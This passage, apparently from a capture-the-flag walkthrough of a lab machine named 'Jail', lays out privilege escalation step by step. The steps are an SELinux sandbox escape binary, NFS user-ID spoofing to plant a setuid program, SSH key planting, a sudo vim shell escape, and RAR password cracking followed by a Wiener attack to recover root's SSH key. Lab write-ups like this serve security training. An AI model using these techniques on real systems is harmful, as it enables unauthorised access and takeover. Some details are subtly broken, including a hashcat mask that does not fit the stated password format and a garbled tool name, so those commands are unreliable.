 ### 7. SELinux Sandbox Escape
- **Technique**: Exploit a command injection vulnerability in SELinux (referenced CVE).
- **Steps**:
  - Research SELinux escape techniques via Reddit (`site:reddit.com/r/netsec selinux escape`).
  - Identify a CVE exploiting terminal input buffer stuffing post-sandbox execution.
  - Compile and execute the SELinux bypass exploit:
    ```bash
    gcc sebypass_id.c -o sebypass_id
    chmod 4755 sebypass_id
    ./sebypass_id
    ```
  - Gain a shell as user `frank` (effective UID 1000).

### 8. NFS User ID Spoofing
- **Technique**: Exploit NFS version 3 user ID spoofing to create a setuid binary.
- **Steps**:
  - Enumerate NFS shares: `showmount -e [TARGET-IP]`, revealing `/opt` and `/var/nfs_share`.
  - Mount NFS shares locally: `mount -t nfs -o vers=3 [TARGET-IP]:/opt /mnt/jail/opt` and `mount -t nfs -o vers=3 [TARGET-IP]:/var/nfs_share /mnt/jail/nfs_share`.
  - Modify local user UID to 1000 (matching `frank`): Edit `/etc/passwd` and `/etc/group`.
  - Create a setuid binary:
    ```c
    int main(void) {
        setuid(1000);
        setgid(1000);
        system("/usr/bin/id");
    }
    ```
  - Compile: `gcc -o tip_id tip_id.c`, set permissions: `chmod 4755 tip_id`, and copy to `/var/nfs_share`.
  - Execute on the target to verify UID 1000 access.

### 9. SSH Key Deployment
- **Technique**: Use NFS write access to deploy an SSH key for `frank`.
- **Steps**:
  - Generate SSH key pair: `ssh-keygen -f ~/htb/boxes/jail/frank_key`.
  - Write the public key to `/var/nfs_share/.key` using the setuid binary.
  - Copy to `/home/frank/.ssh/authorized_keys` on the target.
  - SSH as `frank`: `ssh -i frank_key frank@[TARGET-IP]`.

### 10. Privilege Escalation to `adm` User
- **Technique**: Exploit `sudo` misconfiguration allowing `frank` to run `vim` as `adm`.
- **Steps**:
  - Check `sudo` privileges: `sudo -l`, revealing `frank` can run `vim /opt/logreader/logread.sh` as `adm`.
  - Run `sudo -u adm vim /opt/logreader/logread.sh`, enter `:python import pty; pty.spawn("/bin/bash")` to spawn a shell as `adm`.

### 11. Privilege Escalation to `root`
- **Technique**: Crack an encrypted RAR file and recover the root SSH key.
- **Steps**:
  - Find encrypted file `/var/adm/keys.rar` and note in `/var/adm/note.txt`: Password format is `<lastname><4digits><symbol>`.
  - Identify `frank` as Frank Morris (from Alcatraz escape reference).
  - Generate a wordlist with Hashcat: `./hashcat --stdout -a 3 Morris19?d?d? -o /root/john.jail.words`.
  - Crack RAR password with John the Ripper: `john --wordlist=/root/john.jail.words /root/jail.hash`, revealing `Morris1962!`.
  - Extract `root_authorized_ssh_key.pub` from `keys.rar`.
  - Use `opt-ssh-ctf-tool` to derive the private key via the Wiener attack: `opt-ssh-ctf-tool --publickey root_authorized_ssh_key.pub --private --verbose`.
  - SSH as `root`: `ssh -i root_key root@[TARGET-IP]`.